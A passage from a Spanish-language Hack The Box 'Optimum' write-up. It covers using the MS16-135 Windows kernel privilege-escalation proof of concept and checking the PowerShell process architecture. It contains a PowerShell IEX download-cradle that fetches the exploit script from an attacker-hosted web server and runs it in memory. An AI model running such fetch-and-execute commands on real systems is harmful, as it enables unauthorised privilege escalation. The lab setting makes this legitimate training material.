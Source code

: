 
## Descubrimos arquitectura real en la que corren nuestros scripts de <u>PowerShell (PS)</u> [📌](#ps-architecture) {#ps-architecture}

Dejando algunos objetos de lado llegamos al boletín `MS16-135`, la explotación de esa vuln es dada gracias a un problema con el kernel que permite escalar privilegios sin importar que usuario seamos...

Les dejo estos dos recursos para que profundicen:

* [Cómo explotar el bug de MS16-135 en Windows x64 con PowerShell & Metasploit "Like a Boss"](https://www.elladodelmal.com/2017/04/como-explotar-el-bug-de-ms16-135-en.html).
* [Digging Into a Windows Kernel Privilege Escalation Vulnerability: CVE-2016-7255](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/digging-windows-kernel-privilege-escalation-vulnerability-cve-2016-7255/).

Enfocados en ese boletín llegamos a esta prueba de concepto en **PS**:

* [MS16-135.ps1](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/MS16-135.ps1).

Haremos lo mismo que con `Sherlock`, descargamos el recurso, levantamos servidor web e importamos su contenido. En este caso no tendremos que llamar ninguna función porque el código no esta en ninguna, por lo que una vez ejecutemos:

```powershell
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.2:8000/MS16-135.ps1')
```

Interpretara el código y lo ejecutara...

El output después de ejecutarlo es confuso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6bash_kostasSH_MS135error_NOTx64.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Pero si validamos `systeminfo` tenemos:

```powershell
PS C:\> systeminfo
...
System Type:               x64-based PC
...
```

WTF, debería funcionarnos el script, ya que ***SI*** estamos en una arquitectura `x64`... ¿O no?

Pues buscando info para validar esto encontramos este post:

* [4 Ways to Find OS Architecture using PowerShell (32 or 64 bit)](https://ridicurious.com/2018/10/17/4-ways-to-find-os-architecture-using-powershell-32-or-64-bit/).

En la cuarta forma de validarlo quedamos anonadados 😲

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/optimum/6google_validatingOSarch_IntPtr.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Solo podemos obtener dos respuestas: `4` (4*4=32 (32 bits)) u `8` (8*8=64 (64 bits)). 

Veamos:
